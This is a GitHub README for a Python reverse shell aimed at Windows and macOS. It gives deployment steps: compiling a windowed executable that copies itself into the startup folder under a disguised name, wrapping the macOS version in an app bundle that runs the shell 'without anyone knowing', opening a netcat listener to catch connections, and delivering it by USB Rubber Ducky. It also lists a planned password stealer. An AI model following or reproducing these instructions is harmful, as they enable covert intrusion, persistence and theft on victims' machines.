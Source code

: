 # Python3-Shell
Reverse shell for Mac and Windows
It works in both python2 and python3

TODO:
Create a password stealer
Create file downloader
Maybe create server side
# Shell for Windows

Change the ip-address and port to yours

To compile the .py file use Pyinstaller and the following command:

    pyinstaller --onefile --windowed windowsoperator.py

it is important that you dont rename the file, because when its executed it will move itself to the startup folder and be renamed to windows_shell.exe

--onefile: to make it compile into 1 file
--windowed: to run it without a cmd window

It will compile to a Dist folder

To gain access use netcat with the following command:
    
    nc -l yourport

# Shell for OSX

change the ip and port to yours

for OSX you need to make it a .app package. For that use "appify" to make it a bundle

    appify FU.sh "you app name"
    
After that you need to rename the Shell to "backuptraceback.py" and drag into yourapp.app/Contens/MacOS
now when you double-click it will copy backuptraceback.py/the shell into downloads, and run it as a subprocess without anyone knowing

To gain access use netcat with the following command:
    
    nc -l yourport


# Shell for Windows with USB Rubber ducky/Malduino

Only works for the Danish keyboard, but it should'nt take more than a couple of minutes to make it compatible with your keyboard
